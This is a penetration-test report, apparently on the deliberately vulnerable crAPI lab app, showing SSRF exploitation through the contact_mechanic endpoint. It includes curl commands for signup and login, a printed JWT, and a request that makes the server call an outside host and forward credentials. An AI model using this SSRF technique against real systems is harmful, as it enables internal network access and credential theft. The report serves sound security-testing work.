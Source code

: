 All vulnerabilities demonstrate immediate exploitability with concrete proof of unauthorized access, privilege escalation, or security control bypass through the public application interface at https://crapi.sandbox.local:8888/.

# SSRF Exploitation Evidence

## Successfully Exploited Vulnerabilities

### SSRF-VULN-01: ContactMechanicView URL Manipulation

**Summary:**
- **Vulnerable location:** POST /workshop/api/merchant/contact_mechanic endpoint, `mechanic_api` parameter
- **Impact:** Complete internal network access with credential theft and retry mechanism for persistent attacks
- **Severity:** Critical

**Prerequisites:**
- Valid user authentication (any registered user account)
- Access to Workshop service endpoints

**Exploitation Steps:**

1. **Register and authenticate user account:**
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/identity/api/auth/signup" \
     -H "Content-Type: application/json" \
     -d '{
       "email": "ssrftest_unique_2024@example.com",
       "password": "TestPassword123!",
       "name": "SSRF Test User",
       "number": "5559876543"
     }'
   ```

2. **Login to obtain JWT token:**
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/identity/api/auth/login" \
     -H "Content-Type: application/json" \
     -d '{
       "email": "ssrftest_unique_2024@example.com",
       "password": "TestPassword123!"
     }'
   ```
   Response: `{"token":"eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJzc3JmdGVzdF91bmlxdWVfMjAyNEBleGFtcGxlLmNvbSIsImlhdCI6MTc1ODY1NTE2OSwiZXhwIjoxNzU5MjU5OTY5LCJyb2xlIjoidXNlciJ9.G1b01ATcwCP_jqEYYiL4QqIizklykmJP75DMmq5QwPKgZAn5hcjVgpNwUMkyrsKavHqTcpIfsZsNQOw455edxuvRZcUiOpzxJxJRE7XWKGlXolXQ2HOJjBbnSu3Ut8nz-iJXJNduMrJiyTneSDx_npPAb8VnE-e84FMogrfPf8_F_nrq10y_5g5RnN_J2nmHrCiqASts49QwWxMFqTfhvHVrss78IioHjnw86oQ1px0xscbYf7DVRYhref9Nm_4yxSgc744z1dJHuOg8zpHiaVAGyIs4tljBOaE4yyHhOunmE3j5JcgfGhrEflvnACNMQpkwn07m09KahjD65uPrJw","type":"Bearer","message":"Login successful","mfaRequired":false}`

3. **Exploit SSRF with external service to demonstrate credential forwarding:**
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/workshop/api/merchant/contact_mechanic" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [JWT_TOKEN]" \
     -d '{
       "mechanic_api": "http://httpbin.org/get",
       "message": "SSRF test",
       "repeat_request_if_failed": false,
       "number_of_repeats": 1
     }'
   ```
